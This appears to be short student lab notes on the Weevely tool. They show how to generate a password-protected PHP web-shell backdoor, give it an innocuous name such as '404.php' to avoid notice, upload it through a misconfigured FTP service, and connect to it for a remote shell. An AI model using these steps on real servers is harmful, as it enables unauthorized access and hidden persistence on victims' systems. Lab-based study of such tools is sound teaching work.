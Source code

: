 # How 2 Weevely

#### Introduction
Weevely is a PHP backdoor utility that allows users to set up a reverse shell on an exploited system

### Basic Weevely Setup and Commands
`weevely generate <pass> /path/to/php/file.php`
This creates a simple backdoor protected by a password at the given filepath. This file is encoded, and we can upload this file to the exploited/vulnerable directory.
A tip I was given by a youtube video that has a great tutorial on how to use weevely was to give the file an innocous name that would blend into the system, like "404.php",
which could stand for a 404 redirect on a webserver.
####
All thats left to do now is to deploy the backdoor script onto the exposed/exploited system, in the case of the 8.1 lab, we leveraged the misconfigured ftp client.

`weevely http://target/file.php <pass>`
This allows us to leverage the deployed backdoor script and basically opens a shell on the target system. Rather than having to use a web browser or curl, we can execute commands directly from the terminal.

